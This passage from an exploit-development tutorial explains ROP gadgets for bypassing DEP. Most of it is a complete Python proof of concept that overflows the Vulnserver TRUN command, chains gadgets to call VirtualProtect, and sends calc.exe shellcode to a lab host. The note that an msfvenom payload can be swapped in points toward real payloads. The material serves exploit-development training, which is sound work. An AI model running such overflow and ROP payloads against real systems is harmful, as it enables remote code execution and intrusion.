 The first ROP gadget will push the value of the stack pointer onto the stack. It will then pop it into ECX - meaning ECX now contains the value of the current stack pointer. The second ROP gadget will move the value of ECX into EAX. At this point, ECX and EAX both contain the current ESP value. 

These ROP gadgets will be placed ABOVE the current parameters. The reason is, that these are vital in our calculation process. We are essentially priming the registers before we begin trying to get our intended values into the parameter placeholders. It makes it easier to do this before the `VirtualProtect()` call is made.

The updated POC:

```python
import struct
import sys
import os
import socket

# Vulnerable command
command = "TRUN ."

# 2006 byte offset to EIP
crash = "\x41" * 2006

# Stack Pivot (returning to the stack without a jmp/call)
crash += struct.pack('<L', 0x62501022)    # ret essfunc.dll

# Beginning of ROP chain

# Saving ESP into ECX and EAX
rop = struct.pack('<L', 0x77bf58d2)  # 0x77bf58d2: push esp ; pop ecx ; ret  ;  (1 found)
rop += struct.pack('<L', 0x77e4a5e6) # 0x77e4a5e6: mov eax, ecx ; ret  ;  (1 found)

# Calling VirtualProtect with parameters
parameters = struct.pack('<L', 0x77e22e15)    # kernel32.VirtualProtect()
parameters += struct.pack('<L', 0x4c4c4c4c)    # return address (address of shellcode, or where to jump after VirtualProtect call. Not officially apart of the "parameters"
parameters += struct.pack('<L', 0x45454545)    # lpAddress
parameters += struct.pack('<L', 0x03030303)    # size of shellcode
parameters += struct.pack('<L', 0x54545454)    # flNewProtect
parameters += struct.pack('<L', 0x62506060)    # pOldProtect (any writeable address)

# Padding between ROP Gadgets and shellcode. Arbitrary number (just make sure you have enough room on the stack)
padding = "\x90" * 250

# calc.exe POC payload created with the Windows API system() function.
# You can replace this with an msfvenom payload if you would like
shellcode = "\x31\xc0\x50\x68"
shellcode += "\x63\x61\x6c\x63"
shellcode += "\x54\xbe\x77\xb1"
shellcode += "\xfa\x6f\xff\xd6"

# 5000 byte total crash
filler = "\x43" * (5000-len(command)-len(crash)-len(parameters)-len(padding)-len(rop))
s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("172.16.55.148", 9999))
s.send(command+crash+rop+parameters+padding+shellcode+filler)
s.close()
```
